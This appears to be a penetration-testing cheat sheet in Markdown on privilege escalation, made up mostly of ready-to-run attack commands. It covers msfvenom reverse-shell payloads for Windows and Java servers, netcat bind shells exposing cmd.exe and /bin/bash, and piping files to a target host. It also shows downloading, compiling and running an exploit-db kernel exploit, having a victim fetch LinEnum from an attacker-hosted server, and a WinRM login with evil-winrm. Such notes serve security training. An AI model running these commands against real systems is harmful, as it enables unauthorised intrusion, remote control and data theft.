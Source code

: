 ```yaml
---
title: Privilege Escalation Tools and Techniques
summary: Understand Privilege Escalation and use of tools
description: Understand Privilege Escalation and use of tools
slug: '/privilege-escalation-tool-and-techniques'
tags: ['privilege escalation', 'penetration testing', 'ethical hacking']
---
```


## Reverse Shell

Take advantage of the target system's vulnerabilities to initiate a shell session. Here, listener is attacker.

```bash
# Windows Server
msfvenom -p windows/shell_reverse_tcp LHOST=<listener-ip-addr> LPORT=<listener-port> -f exe > shell-x64.exe

nc -lvp <listener-port>

# Now, after you download and run the app. We get the access to victim's shell.

# Java Server
msfvenom -p java/jsp_shell_reverse_tcp lhost=<listener-ip-addr> lport=<listener-port> -f war > shell.war
```

### WinPEAS

```powershell
WinPEASx65.exe systeminfo log=systeminfo.txt # Privilege Escalation
```

### netcat

#### Windows

```powershell
ncat.exe -lp 52000 # Start listening at port 52000

netstat -an | more

# If file doesn't exist it will be created else cleared and redirected.
ncat.exe -lp 55555 > alice.txt
# Append in a file instead.
ncat.exe -lp 55555 >> alice.txt

ncat.exe -lp 10314 -e cmd.exe # -e is executable i.e. cmd.exe

ncat.exe <target-linux-ip-addr> 14618 # Bash shell from Linux
```

#### Linux

```bash
nc <target-windows-ip-addr> 52000 # Linux

# Send content of the bob.txt file.
nc -w 1 <target-windows-ip-addr> 5555 < bob.txt
# If the connection and stdin are idle for more than timeout seconds,
# the connection is closed silently. Default is no timeout.
# `nc` will listen forever for a connection, with or without the -w flag.

nc <target-windows-ip-addr> 10314 # Windows prompt from Linux

nc -lp 14618 -e /bin/bash # bash as executable.

nc -nlvp 5555
# -n: no DNS or service lookups on any addresses, hostnames or port names.
# -l: listen for an incoming connection.
# -v: give more verbose output.
# -p: to specify the local port number.
```

> Note: `>` is output redirection character, `<` is input redirection character.

## exploit-db.com

Based on Linux kernal, VulnOS -> `37292`

```bash
whoami

wget https://www.exploit-db.com/exploits/44298 -O exploit.c

gcc exploit.c -o exploit
chmod 777 exploit
./exploit

whoami
```

## LinEnum

```bash
# Attacker Server
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O LinEnum # or Copy RAW to to LinEnum file.

chmod +x LinEnum

python -m http.server 8000 # Serving http server to host a file to download.

# Victim Client
wget http://<attacker-ip-addr>:8000/LinEnum

./LinEnum
```

## Gobuster - Directory Traversal

```bash
# -u assign target
# -w word list
# -x is list of extensions
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target-ip-addr>

gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .php,.txt,.html -u <target-ip-addr>
```

## Spawning Bash Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Pseudo-terminal utilities
```

## Root Login on NOPASSWD Sudoer

> `sudo -l`: This command is used to list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

> `sudo -i`: This command, also known as sudo --login, starts a new shell as the target user (root by default), and changes to their home directory.

## Window Remote Management (WinRM)

```bash
evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'
```

> Which metasploit module can be used in this case to abuse Windows Remote Management?
> **auxiliary/scanner/winrm/winrm_login**

## Reference

- https://github.com/ec-council-learning/Pentesting-Fundamentals-for-Beginners
